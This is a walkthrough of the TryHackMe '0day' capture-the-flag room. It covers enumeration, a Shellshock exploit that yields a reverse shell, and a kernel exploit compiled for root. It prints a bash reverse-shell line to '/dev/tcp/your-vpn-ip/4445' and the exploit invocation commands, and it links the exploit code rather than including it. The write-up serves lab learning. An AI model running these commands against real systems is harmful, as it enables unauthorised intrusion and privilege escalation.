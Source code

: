 ```yaml
---
layout: post
title: Tryhackme - 0day
date: 2020-11-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,kernel-exploit]
---
```


---
<p>0day is a beginner-intermediate room in Tryhackme. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/0day/1.png)

**Author** | MuirlandOracle and 0day
**Description** | Exploit Ubuntu, like a Turtle in a Hurricane.

<p>Deploy the VM and lets go.</p>

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/0day/nmap_scan.png)
<br>
Only the ssh and http services are open. Let's dive right into http service.
<br>
![http_service](/assets/img/tryhackme/0day/2.png)
<br>
Use ```gobuster``` to bruteforce the hidden directories.
<br>
<br>
![gobuster](/assets/img/tryhackme/0day/3.png)
<br>

I found a private ssh key in the ```/backup``` dir, converted it to hash and cracked it but finally it wasn't useful. It was such a drag.. 

So I used ```nikto``` to enumerate further.
<br>
<pre>nikto --url http://remote-ip-addr/</pre>
![nikto_scan](/assets/img/tryhackme/0day/11.png)
<br>
Nikto found a vulnerability called ```shellshock```. I tried using the exploit but it failed. So, I searched for the same vulnerability in ```searchsploit```.
<br>
<pre>searchsploit shellshock</pre>
<br>
![searchsploit](/assets/img/tryhackme/0day/4.png)
<br>
Download the exploit from ```exploit-db```. Here is the [link to exploit](https://www.exploit-db.com/exploits/34900).


## <ins>User flag</ins>
---
I ran the exploit using ```python exlpoit.py``` and it showed the correct usage.
<br>
<pre>python2 exploit.py payload=reverse rhost=10.10.186.0 lhost=your-vpn-ip lport=4444</pre>
<br>
![exploit](/assets/img/tryhackme/0day/5.png)
<br>

It was not a stable shell so I used the bash reverse shell payload to get a stable reverse shell. In the local machine open a netcat listener and run this on the remote machine.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4445 0>&1</pre>
<br>
![user_flag](/assets/img/tryhackme/0day/6.png)
<br>
There, we got the user flag. 


## <ins>Root flag</ins>
---
After some enumeration I found that the OS is not the latest version.
<br>
<pre>
uname -r
3.13.0-32-generic</pre>
<br>

I used searchsploit to search for any availalbe exploits.
<br>
<pre>searchsploit ubuntu 3</pre>
<br>
![searchsploit_kernel_Exp](/assets/img/tryhackme/0day/7.png)
<br>

Nice!! There is a publicy available kernel exploit. Here is the [link for the exploit](https://www.exploit-db.com/exploits/37292).

Download the exploit to the local machine and transfer it to the remote machine. I tried to run the exploit but somethings wierd...it throws an error.
<br>
![exploit](/assets/img/tryhackme/0day/8.png)
<br>

So, I tried echoing the ```PATH``` variable and the location of ```gcc```.
<br>
![location_](/assets/img/tryhackme/0day/9.png)
<br>

This is because ```gcc``` calls many executables during execution. Since the path is **not exported properly** it throws an error.

So, let's append the location ```/usr/bin``` to the ```$PATH``` variable and export it.
<br>
<pre>export PATH=$PATH:/usr/bin</pre>
<br>
And let's run the exploit.
<br>
<pre>
gcc exploit.c -o exploit
chmod +x exploit
./exploit</pre>
<br>
![path_change](/assets/img/tryhackme/0day/10.png)
<br>
Bingo!!! We got the root flag.

Box rooted.

That's it folks. Happy hacking!!!
